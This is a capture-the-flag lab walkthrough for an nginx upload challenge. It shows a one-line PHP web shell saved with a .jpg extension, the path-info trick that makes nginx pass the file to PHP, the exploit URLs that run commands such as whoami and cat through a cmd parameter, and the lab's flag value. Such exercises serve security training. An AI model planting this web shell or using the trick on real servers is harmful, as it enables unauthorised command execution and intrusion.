












<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">Vulnerable Nginx II </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://www.attackdefense.com/challengedetails?cid=208>  </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">Infrastructure Attacks : Nginx </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

The web portal only allows the user to upload files with restricted extensions i.e. jpg, png etc. But a misconfiguration in PHP configuration file (php.ini) allows PHP code execution for uploaded files. 

**Objective:** Your objective is to upload a web shell, execute arbitrary commands on the server and retrieve the flag! 

**Solution:**  ![ref1]

**Step 1:** Inspect the web application. 

**URL:** http://rm6nrvpugyar08ip9hfzkrv0l.public1.attackdefenselabs.com/ 

**Step 2:** Since only image extensions i.e jpg, png are allowed. Create a simple web shell and save it with “jpg” extension** 

Save the below given php script as shell.jpg 

<?php 

$output = shell\_exec($\_GET["cmd"]); echo "<pre>$output</pre>"; 

?> 

**Step 3:** Upload shell.jpg file to the web server. ![ref1]

Click on the browse button and upload the php script. 

**Step 4:** Click on the hyperlink generated after uploading the php script  

**URL:** http://rm6nrvpugyar08ip9hfzkrv0l.public1.attackdefenselabs.com/uploads/shell.jpg  ![ref1]

Since shell.jpg is not an image, the browser fails to render shell.jpg as an image. 

**Step 5:** To exploit the misconfiguration, append a filename ending with “.php” extension. By doing so, nginx will pass the shell.jpg file to the php handler and the php script will be executed. 

**URL:** http://rm6nrvpugyar08ip9hfzkrv0l.public1.attackdefenselabs.com/uploads/shell.jpg/shell.php 

No output is returned since the cmd parameter was not passed. **Step 6:** Execute system commands through “cmd” GET parameter. **Command:** whoami 

**URL:** http://rm6nrvpugyar08ip9hfzkrv0l.public1.attackdefenselabs.com/uploads/shell.jpg/shell.php?cm d=whoami **![ref1]**

**Step 7:** Enumerate files stored on the web server. **Command:** pwd 

**URL:** http://rm6nrvpugyar08ip9hfzkrv0l.public1.attackdefenselabs.com/uploads/shell.jpg/shell.php?cm d=pwd 

**Command:** ls -l /var/www/html/ 

**URL:** http://rm6nrvpugyar08ip9hfzkrv0l.public1.attackdefenselabs.com/uploads/shell.jpg/shell.php?cm d=ls%20-l%20/var/www/html 

The flag location is revealed. ![ref1]

**Step 8:** Retrieve the flag 

**Command:** cat /var/www/html/11fe3327841e0a7e-flag 

**URL:** http://rm6nrvpugyar08ip9hfzkrv0l.public1.attackdefenselabs.com/uploads/shell.jpg/shell.php?cm d=cat%20/var/www/html/11fe3327841e0a7e-flag 

**Flag:** a70b6683dcc71cc32102ed404ad5fbf3 **References:**  

1. Nginx (<https://www.nginx.com/>)  ![ref1]
1. Setting up PHP-FastCGI and nginx? Don’t trust the tutorials: check your configuration! ([https://nealpoole.com/blog/2011/04/setting-up-php-fastcgi-and-nginx-dont-trust-the-tutor ials-check-your-configuration/](https://nealpoole.com/blog/2011/04/setting-up-php-fastcgi-and-nginx-dont-trust-the-tutorials-check-your-configuration/))  

[ref1]: Aspose.Words.770197fe-5e7c-41c0-8ec7-5b368c99d6c3.003.png
